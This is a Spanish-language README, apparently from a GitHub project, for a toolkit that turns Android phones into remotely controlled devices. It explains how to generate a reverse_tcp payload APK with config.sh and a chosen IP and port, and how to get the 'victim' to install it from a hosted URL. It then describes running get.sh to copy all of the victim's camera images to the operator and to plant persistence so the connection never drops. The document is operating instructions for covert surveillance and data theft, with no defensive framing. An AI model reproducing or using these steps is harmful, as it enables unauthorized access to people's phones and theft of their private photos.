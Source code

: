 # 1. Genear el payload y configuracion inicial

Para ello utilizamos el comando

```shell
sudo bash config.sh
```

Este comando ejecutara un script encargado de generar un payload con reverse_tcp para un android, por defeto utiliza hostname -I, y para el puerto 4444, pero se puede modificar o en el caso de no ser compatible, utilizando el parametro --ip |-i para el host y --port | -p para el puerto ej:

```shell
sudo bash config.sh -i 192.127.0.80 -p 4443
```

# 2. Conexión con el usuario

> [IMPORTANT] Asegúrate de estar conectado a la misma red que la víctima antes de ejecutar el exploit.

Se creará un apk llamado main.apk
Una vez ejecutado el coamndo anterior aparecerá un mensaje como el siguiente print_green "Archivo main.apk disponible en http://$LOCAL_IP:$PORT_PYTHON/main.apk"
Una vez creado deverá ser instalado por el usuario victima, ya sea medante la url, a la web donde se encuentra un botón para ello, desde la ruta /main.apk, o pasandoselo de cualquier otra foprma.

# 3. Obtener los datos

Una vez estemos conectados nuestra víctima utilizaremos el siguiente comando

```shell
sudo bash get.sh -u $USER
```

Una vez conectados podemos hacer todo lo que desehemos pero este pack incluye una forma rapida mediante un script de poder descargarnos toda la información que deseemos de nuestra "victima" envie todos las imagenes de su camara a el directorio /data
Tmabién generará un archivo de peristencia para que no cierre sesión en ningun momento, y que siempre que no se apage el dispositivo y permaneza en la misma red se esté conectado.
